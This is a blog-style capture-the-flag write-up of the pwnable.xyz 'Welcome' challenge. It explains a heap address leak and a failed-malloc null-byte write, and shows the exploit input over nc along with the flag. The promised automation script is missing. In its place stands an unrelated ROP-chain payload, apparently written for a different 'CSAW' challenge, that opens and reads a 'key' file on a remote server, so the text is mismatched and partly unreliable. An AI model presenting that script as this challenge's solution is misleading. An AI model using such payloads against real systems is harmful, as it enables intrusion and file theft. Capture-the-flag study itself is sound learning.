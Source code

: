 ```yaml
---
layout: post
title: "PwnableXYZ: Welcome challenge"
date: 2024-02-06
tags: [Pwn] 
description: This post discuss the solution for the first pwnable.xyz challenge.
---
```


# Introduction
That is my first post in 2024, so I thought to refresh my knowledge about binary exploitation by going through the [pwnable.xyz](https://pwnable.xyz/) challenges in my free time. This post will be the write-up for the first challenge **"Welcome"**.

# Gaining insights on the binary

The first step I usually do, is to check the mitigations of the binary using the `checksec` command in pwndbg. The command's output shows that all the mitigations are turned on.

![img]({{'/assets/images/PwnableXYZ-Welcome/img1.png' | relative_url }}){: .center-image }*(**The mitigations status**)*

By executing the binary, I found that it prints out a hexadecimal number representing a memory address leak and receives two inputs, which are the message's length and the message itself, as shown below.

> CommandLine 
{:.filename}
{% highlight CMD %}
$ ./challenge
Welcome.
Leak: 0x7f318f02c010
Length of your message: 5
Enter your message: aaaaa
aaaa
{% endhighlight %}

# Finding the vulnerability

The main function starts with calling the function at address 0x100b4e, which is responsible for stopping the buffering for stdin and stdout. Also, it automatically signals the program to exit in 60 seconds.

![img]({{'/assets/images/PwnableXYZ-Welcome/img2.png' | relative_url }}){: .center-image }*(**The function at 0x100b4e**)*

After that, it allocates memory from memory the heap whose address is saved to a pointer `HeapPtr1` and sets its first byte to 1. Then, it prints out the `HeapPtr1` value that represents the memory leak, we saw previously. In the next step, it receives from the user two inputs: a number representing the message size and the message. The message is a string whose address in the heap is saved into a pointer called `HeapPtr2`, as appears below.

![img]({{'/assets/images/PwnableXYZ-Welcome/img3.png' | relative_url }}){: .center-image }*(**Allocating memory for the message**)*

Finally, the last byte of the message is set to null, and the program prints it to the screen. Also, as appears below, to print the flag, the first byte of the memory pointed to by a `HeapPtr1` must be equal to zero. However, it's equal to one.

![img]({{'/assets/images/PwnableXYZ-Welcome/img4.png' | relative_url }}){: .center-image }*(**The vulnerable code**)*

The above highlighted line represents the vulnerability that will enable us to set the first byte of `HeapPtr1` to zero using the message size that we control.

# Exploiting the vulnerability

To exploit the vulnerability, first, we need the result of `HeapPtr2 + msgSize-1` to equal the leaked address. That is achieved by inputting the message size with value `HeapPtr1 + 1`, which will cause the `malloc` to return zero (`HeapPtr2` is zero), as it will fail to allocate the requested memory size, leading us to set the first byte of `HeapPtr1` to zero.

There are two ways to exploit that binary, the first one, as shown below, is achieved by converting the leaked address from hexadecimal to decimal. Then, incrementing and inputting it as message size. However, this conversion must be within 60 seconds before the program is signaled to exit.

> CommandLine 
{:.filename}
$ nc svc.pwnable.xyz  30000 
Welcome.
Leak: 0x7fac38973010
Length of your message: 140377660534801
Enter your message: 32323
FLAG{did_you_really_need_a_script_to_solve_this_one?}
{% endhighlight %}

The second way is to implement a Python script that uses [pwntools](https://docs.pwntools.com/en/stable/), to automate the previous task, as the following script.

> Constructing ROP chains
{:.filename}
{% highlight Python %}
def Open_Read_Write(conn,InputAddress,ImageBase,readfile_Fun,openfile_Fun):
 print("[x] reading key file from remote server...")   
 try:
  Payload= b'CSAW'+b'A'*1020 #Bypass condition & overflowing
  Payload+=p32(InputAddress+1056+8) # address to save the returned handle
  Payload+=p32(openfile_Fun) #address of openfile functions
  Payload+=p32(ImageBase+0x1ce8) # mov dword[ebp-8],eax gadget , eax ==> handle
  Payload+= p32(InputAddress+1248)+p32(InputAddress+1184)+p32(0) # openfile parameters , (lpname,structure,null)
  Payload+= p32(readfile_Fun) # readfile function address
  Payload+= p32(ImageBase+0x14d0) # print to screen function
  Payload+= b'b'*4 # (first parameter of readfile)random bytes which will be overwritten with handle value
  Payload+=p32(InputAddress+1084)+p32(100)+p32(0)+p32(0) # buffer+size_of_string+null+null
  Payload+= p32(ImageBase+0x128f) #exit(1) function 
  Payload+= p32(InputAddress+1084) #buffer to be printed to stdout
  Payload+= b'\x00'*100 # buffer values
  Payload+=b'c'*64 #openfile structure
  Payload+=b'key'+b'\x00' #filename
  conn.sendline(Payload)
  conn.recvuntil(".").decode() 
  print("[+] reading key file Succeeded and it contain following text:")
  print(conn.recvall().decode().split("\n")[2])
 except:
      print("[-] Failed to read file name key on remote server... ") 
      sys.exit(0)
{% endhighlight %}
